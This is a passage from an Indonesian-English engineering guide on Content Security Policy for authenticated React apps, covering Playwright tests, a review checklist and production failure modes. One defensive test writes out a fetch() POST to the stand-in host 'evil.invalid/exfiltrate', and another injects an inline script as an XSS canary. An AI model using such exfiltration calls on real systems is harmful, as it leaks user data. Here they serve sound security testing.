X-Content-Type-Options: nosniff
```

Menambahkan CSP panjang ke API JSON biasanya tidak memberi banyak manfaat, kecuali ada endpoint yang dapat dirender sebagai document. Fokus API harus:

- correct content type,
- no-store untuk sensitive response,
- CORS ketat,
- authorization server-side,
- audit/correlation id.

---

## 22. Testing CSP

### 22.1 Manual smoke test

- Login works.
- Callback works.
- Session bootstrap works.
- API calls work.
- WebSocket/SSE works.
- File preview/upload works.
- Rich text renders safely.
- Admin routes do not load chat/analytics if forbidden.
- OAuth callback does not load third-party scripts.
- CSP reports arrive.

### 22.2 Automated header test

```ts id="f7a1ax"
import { test, expect } from "@playwright/test";

test("authenticated shell has restrictive CSP", async ({ page }) => {
  const response = await page.goto("/app/dashboard");
  const csp = response?.headers()["content-security-policy"];

  expect(csp).toContain("default-src 'none'");
  expect(csp).toContain("object-src 'none'");
  expect(csp).toContain("base-uri 'self'");
  expect(csp).toContain("frame-ancestors 'none'");
  expect(csp).not.toContain("default-src *");
  expect(csp).not.toContain("'unsafe-inline'");
});
```

### 22.3 XSS canary test

```ts id="eyh7l8"
test("inline script injection is blocked", async ({ page }) => {
  await page.goto("/app/sandbox-xss-test");

  const executed = await page.evaluate(() => {
    const script = document.createElement("script");
    script.textContent = "window.__xssExecuted = true";
    document.body.appendChild(script);
    return Boolean((window as any).__xssExecuted);
  });

  expect(executed).toBe(false);
});
```

Caveat: automated injection behavior can vary depending on page context and test harness. Gunakan sebagai smoke test, bukan satu-satunya assurance.

### 22.4 `connect-src` exfiltration test

```ts id="tob3x8"
test("unknown network exfiltration target is blocked by CSP", async ({ page }) => {
  const violations: string[] = [];

  page.on("console", (msg) => {
    if (msg.type() === "error") violations.push(msg.text());
  });

  await page.goto("/app/dashboard");

  await page.evaluate(() => {
    fetch("https://evil.invalid/exfiltrate", {
      method: "POST",
      body: JSON.stringify({ hello: "world" }),
      mode: "no-cors",
    }).catch(() => undefined);
  });

  // Browser console/reporting behavior is implementation-dependent.
  // The stronger assertion is done through CSP report endpoint in integration env.
});
```

---

## 23. CSP review checklist

### Policy shape

- [ ] `default-src` is restrictive, ideally `'none'`.
- [ ] `object-src 'none'` exists.
- [ ] `base-uri` exists.
- [ ] `frame-ancestors` exists.
- [ ] `form-action` exists.
- [ ] `connect-src` is an explicit allowlist.
- [ ] No `connect-src *` on authenticated routes.
- [ ] No `script-src *` on authenticated routes.
- [ ] No production `unsafe-eval` unless reviewed.
- [ ] No production `unsafe-inline` for script unless unavoidable and risk-accepted.
- [ ] Callback/admin/impersonation routes have stricter policy.

### Nonce/hash

- [ ] Nonce generated per response.
- [ ] Nonce is unpredictable.
- [ ] Nonce is not reused across responses.
- [ ] Nonce not injected into user-controlled HTML.
- [ ] HTML with nonce is not cached incorrectly.
- [ ] Inline scripts are removed or have nonce/hash.

### Third-party

- [ ] Every script origin has owner and justification.
- [ ] Every connect origin has owner and data classification.
- [ ] No tag manager on auth callback.
- [ ] No support/analytics widget on privileged admin pages unless approved.
- [ ] Monitoring SDK scrubs auth headers, tokens, PII, and full URLs.

### Reporting

- [ ] Report-only mode used during rollout.
- [ ] Report endpoint sanitizes URL and user data.
- [ ] Report volume is sampled/rate-limited.
- [ ] Security team can distinguish extension noise from real violations.
- [ ] CSP violation spike has alert/runbook.

---

## 24. Common production failure modes

### 24.1 App works locally, breaks in production

Cause:

- dev server allowed `unsafe-eval`, production does not,
- CSS-in-JS runtime creates inline style without nonce,
- CDN injects script without nonce,
- monitoring snippet added outside renderer,
- service worker script source not allowed.

Fix:

- separate dev/prod CSP,
- move script injection into nonce-aware renderer,
- add tests for production build,
- avoid CDN HTML mutation for authenticated pages.

### 24.2 Login works, callback breaks

Cause:

- callback route has stricter `connect-src` than token exchange path needs,
- SDK loads iframe/script not allowed,
- form-action does not include IdP for SAML/legacy flow,
- callback page cached with stale nonce.

Fix:

- prefer BFF callback,
- keep callback minimal,
- add route-specific CSP test,
- inspect CSP report.

### 24.3 CSP reports flooded by browser extensions

Cause:

- extensions inject scripts/content.

Fix:

- classify extension patterns,
- sample reports,
- avoid alerting on known extension noise,
- still alert on first-party route/source violations.

### 24.4 `connect-src` blocks monitoring

Cause:

- error monitoring endpoint not listed.

Fix:

- add endpoint only after scrubber review,
- do not add wildcard,
- do not allow monitoring on sensitive callback pages unless needed.

---

## 25. The top 1% mental model

CSP untuk React auth bukan “security header”. CSP adalah **browser-side containment policy**.

Engineer biasa bertanya:

```txt id="llcb11"
Header CSP apa yang harus saya copy?
```

Engineer senior bertanya:

```txt id="h23g2s"
Kalau attacker berhasil menyisipkan script ke authenticated shell, apa saja yang masih bisa dia lakukan?
Origin mana yang bisa dipanggil?
Data apa yang bisa dieksfiltrasi?
Route mana yang memuat third-party script?
Callback/admin/impersonation page punya policy yang lebih ketat atau tidak?
Violation report masuk ke siapa?
```

Itulah perbedaan antara checklist dan engineering.

---

## 26. Summary

CSP pada authenticated React apps harus dirancang sebagai:

- XSS blast-radius limiter,
- browser egress control,
- clickjacking defense,
- form target constraint,
- third-party script governance,
- route-specific runtime policy,
- observability signal,
- incident containment layer.

Minimal production posture:

```txt id="1eq6zm"
- default deny
- no object
- no untrusted frame ancestors
- no arbitrary connect-src
- no arbitrary script-src
- route-specific policy
- nonce/hash for inline execution
- report-only rollout
- violation telemetry
- no third-party script on callback/admin-sensitive pages
```

CSP tidak membuat authorization benar. Tetapi ketika authorization, session, and UI exposure sudah benar, CSP mengurangi damage ketika browser surface gagal.

---

## References

- OWASP Content Security Policy Cheat Sheet — https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html
- OWASP Cross Site Scripting Prevention Cheat Sheet — https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- MDN Content-Security-Policy header — https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy
- MDN Content Security Policy guide — https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP
- MDN frame-ancestors directive — https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy/frame-ancestors
- web.dev Strict CSP — https://web.dev/articles/strict-csp
- Trusted Types specification — https://w3c.github.io/webappsec-trusted-types/dist/spec/
